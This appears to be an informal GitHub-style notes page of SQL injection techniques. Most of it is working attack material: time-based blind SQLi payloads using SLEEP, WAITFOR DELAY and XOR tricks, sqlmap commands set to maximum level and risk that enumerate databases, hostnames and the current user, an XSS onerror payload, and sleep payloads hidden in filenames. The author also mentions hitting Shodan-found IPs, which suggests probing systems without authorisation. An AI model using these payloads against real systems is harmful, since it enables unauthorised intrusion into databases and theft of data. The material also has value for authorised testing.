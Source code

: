 One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.


```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)
```
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user

90% from my finds in SQL injection as
 [POST Request] 
1 Login page in username parameter 
2 Forget password page username parameter
3 Singup Page firstname and last name parameter

' WAITFOR DELAY '0:0:5'-- 
';WAITFOR DELAY '0:0:5'-- 
===>Comment

If sometimes you cant exploits  
change request form POST to GET 
if the same with the url injection try change request form GET to POST



most modern web apps use WAF & user input validation before execute it.
yeh 
you can try with 
--random-agent 
but i dont remember that i use tempers 

or maby because lot of these sql i found it from shodan ips




all the time i try Sql  in user parameter 
1)
i used sleep payload
`';WAITFOR DELAY '0:0:5'-- `
and the server get DELAY for 5 s
2)
save Post request in txt
```
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```
```
"><img src=x onerror=alert(document.domain)>
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
```
